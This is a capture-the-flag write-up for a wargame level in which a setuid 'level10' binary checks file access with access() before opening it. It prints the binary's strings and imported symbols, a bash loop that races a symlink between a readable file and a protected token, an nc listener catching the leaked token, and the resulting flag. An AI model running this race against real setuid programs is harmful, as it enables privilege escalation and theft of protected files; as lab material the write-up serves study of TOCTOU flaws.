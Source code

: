 In this level, we have 2 files : `level10`, a setuid executable, and `token`, a
regular file with no permissions.

`./level10`
>./level10 file host   
    sends file to host if you have access to it

`./level10 token` gives the same output.

If we `strings level10`, we can find this : 

```
[^_]
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 .. 
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file .. 
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
;*2$"
```

We understand that `level10` is a script to send a file to a host on
port 6969.

We open a 2nd instance of terminal, in order to listen to port 6969 in the
second window, and send the file in the 1st instance. But this doesn't work.

If we `nm-u level10` : 
```
         w _Jv_RegisterClasses
         U __errno_location@@GLIBC_2.0
         w __gmon_start__
         U __libc_start_main@@GLIBC_2.0
         U __stack_chk_fail@@GLIBC_2.4
         U access@@GLIBC_2.0
         U connect@@GLIBC_2.0
         U exit@@GLIBC_2.0
         U fflush@@GLIBC_2.0
         U htons@@GLIBC_2.0
         U inet_addr@@GLIBC_2.0
         U open@@GLIBC_2.0
         U printf@@GLIBC_2.0
         U puts@@GLIBC_2.0
         U read@@GLIBC_2.0
         U socket@@GLIBC_2.0
         U strerror@@GLIBC_2.0
         U write@@GLIBC_2.0
```

We found out that `access` function has a security hole which can be exploited
with a toctou race condition. We also learn that `access` dereferences a symlink
when it is giving one. Meaning that `access` check the permissions of the file the
symlink points to, and not the permissions of the symlink itself.

So, what we need to do, is to create a symlink that alternatively points on
`level10`, and on a file we have access to, and in the same time try to send
the symlink to `localhost`. We put everything in a loop, in a
script :

toctou.sh :

```
#!/bin/bash

while true
do
	ln -fs /tmp/toto /tmp/sym &
	./level10 /tmp/sym 127.0.0.1 & 
	ln -fs /home/user/level10/token /tmp/sym &
done
```

In the same time, we listen to the port in another instance of terminal :

`while true; do nc -l 6969;  done`

We got this in the listening terminal :

```
.*( )*.
woupa2yuojeeaaed06riuj63c
```

`su flag10` and `getflag` :
> Check flag.Here is your token : feulo4b72j7edeahuete3no7c


# Sources :

127.0.0.1 IP address explained :
- https://www.lifewire.com/network-computer-special-ip-address-818385

Listening and sending data to a specific port : 
- https://askubuntu.com/questions/509629/sending-data-to-port-does-not-seem-to-be-working-on-ubuntu-linux

man access page containing warning about a security hole : 
- https://linux.die.net/man/2/access
- https://stackoverflow.com/questions/7925177/access-security-hole

About the "&" at the end of a linux command : 
- https://stackoverflow.com/questions/13338870/what-does-at-the-end-of-a-linux-command-mean

How to exploit `access` with symlinks : 
- https://labs.p64cyber.com/exploit-access-with-symlinks/

How to change where a symlink points :
- https://unix.stackexchange.com/questions/151999/how-to-change-where-a-symlink-points

About `toctou` (time-of-check to time-to-user) race condition : 
- https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use
